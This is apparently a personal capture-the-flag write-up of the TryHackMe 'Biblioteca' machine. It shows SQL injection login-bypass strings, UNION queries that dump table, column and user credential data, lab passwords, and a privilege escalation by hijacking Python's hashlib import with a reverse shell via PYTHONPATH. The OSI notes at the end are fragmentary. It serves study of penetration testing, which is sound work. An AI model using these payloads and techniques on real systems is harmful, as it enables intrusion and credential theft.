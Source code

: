 # Biblioteca Helped-Through

Name: Biblioteca
Date:  10/01/2023
Difficulty:  Medium
Goals:  
- Warm up brain after work
- Have fun
- Fundementals
Learnt:
Beyond Root:
- Explain the OSI model for each layer a aspect of how the machine works and if there is no active aspect I must interact with the box on a layer that the box does intentional want external interaction 
- Caveat One do not look at the [THM](https://tryhackme.com/room/osimodelzi)
	- Write what I think the OSI model is
	- Check and correct myself
	- Then test myself with the room.

Fundementals are important and warming up and having fun while prepping for arduious Hacking and Learning later. I thought I would start evening with another newbie tuesday from [Alh4zr3d](https://www.youtube.com/watch?v=Uz4iv7kHxpI). Also I need to finished patching [[Agent-T-Writeup]] and this might prompt it to occur and swiftly. Also I need to exercise and finish [[Bucket-Helped-Through]] before going on a massive Azure related educative spree. 0xTiberious and H3l3N_0F_t0r join the stream along with all the regulars.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

I register a user but it did not provide much functionality. I tried command inject, sqli but got: 
![](whileupsetabouttopgun.png)
`admin'1' OR '1'='1'-- -`, because I assumed the you would store usernames as strings for some reason...but it instead want `admin' OR 1=1-- -`

![](butitlikeregular.png)

Awhile got my One punchman straight 100s in minus the 10k.  
![](hydrasmokey.png)

## Exploit

3416 tries probably not the intended path. Al mentions sqlmap, which I seem to hardwired out of my brain as OSCP does not allow SQLmap.
![](sqlmapoutput.png)

Given the current state of the cold viruses these days and desperately trying to continue on regardless, I return again to this machine more excited about manual SQL injection.

![](1stsqli.png)

Because it is using the 2nd field of the return of the query to display information we can ask the database for all the information we need like - database version
![](2ndsqli.png)
What Database we are in:
![](3rdsqli.png)

This next query got me:
```sql
SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'-- -
```

![](thissqligotmetoo.png)
As like Al was also think that the query in that section of the query will all need to be together between comma when the FROM statement has to go after the fields that SELECT is selecting. Now we want column names:
```sql
UNION SELECT 1,group_concat(table_name, columns_name),3,4 FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'-- -
```

![](sqlicolumns.png)
```sql
usersemail,usersid,userspassword,userusername
```

Now to extract passwords

```sql
UNION SELECT 1,group_concat(username,':' password),3,4 FROM users-- -
```

![](smokeyPassword.png)
I am very surpised that `smokey:My_P@ssW0rd123` that that is not in rockyou.txt. Beware the additional examation marks.


## Foothold

![](smokeyfoothold.png)

And there is two PrivEsc we need to do:
![](hazelishere.png)
Looking for all owned files for smokey
![](smokeysapp.png)
the script contains hardcoded credentials
![](appscript.png)
`$tr0nG_P@sS!` for mysql, Al stilll talking about SQLi
![](localsqldatabase.png)
But it is just the database with the table used to get in and su-ing twith password reuse does not work. The mald is real `hazel:hazel`

![](realmald.png)
## PrivEsc

![](hasherpythonscript.png)

![](setenvtheenv.png)
[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#setenv) has this:
![](hacktrickstotherescue.png)
Spoilers for [[Admirer-Writeup]] I suppose..
- Script imports hashlib
- Create reverse shell in /dev/shm called hashlib
- Point PYTHONPATH to /dev/shm

![](root.png)

## Beyond Root

OSI model, Raw Sockets, ICMP

- Ping has  raw sockets in Linux 
![](getcapping.png)
```bash 
getcap OTHER
```

```powershell
getcap variant
```

This is my third time writing this up.

Apply a Presentation of a Session Transporting Network Data through Physical cables. 

1. Physical
2. Data
3. Network
4. Transport - Mixed up
5. Session - Mixed Up
6. Presentation
7. Application
